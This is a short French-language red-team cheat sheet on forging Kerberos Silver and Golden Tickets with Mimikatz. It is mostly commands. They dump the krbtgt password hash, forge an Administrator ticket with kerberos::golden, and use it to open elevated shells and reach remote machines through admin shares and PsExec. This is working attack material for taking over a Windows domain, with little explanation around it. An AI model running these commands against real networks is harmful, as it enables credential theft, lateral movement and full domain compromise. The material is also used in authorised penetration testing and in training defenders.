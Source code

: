 # Silver & Golden Tickets 
[Mimikatz](Mimikatz.md)

- Un ticket argent (silver) est limité au service ciblé.
- Un ticket or (golden) a accès à n'importe quel service Kerberos.

## Golden Tickets

Vider le hachage krbtgt

```sh
lsadump::lsa /inject /name:krbtgt
# Assurez-vous que cela génère: [privilège '20' ok]
```

Créer un ticket d'or

```sh
kerberos::golden /user:Administrator /domain:controller.local /sid:{krbtgt_SID} /krbtgt:{krbtgt_NTHASH} /id:500

kerberos::golden /user:Administrator /domain:{DOMAIN} /sid:{SID} /krbtgt:{NTLM} /id:500

# Assurez-vous que cela génère: Final Ticket Saved to file !
```

Utilisez le ticket Golden pour accéder à d'autres machines

```sh
misc::cmd
# Cela ouvrira une nouvelle invite de commande avec des privilèges élevés sur toutes les machines


dir \\DESKTOP-1\c$
PsExec.exe \\DESKTOP-1 cmd.exe
```
## Silver Tickets

Pour créer un ticket d'argent, placez simplement un hachage NTLM de service dans l'emplacement krbtgt, le SID du compte de service dans SID et modifiez l'ID en 1103.

Créer un ticket d'or/d'argent

```sh
kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:1103
```

Utilisez le ticket Silver pour accéder au service

```sh
misc::cmd
# Cela ouvrira une nouvelle invite de commande élevée avec le ticket donné dans mimikatz

dir \\DESKTOP-1\c$
```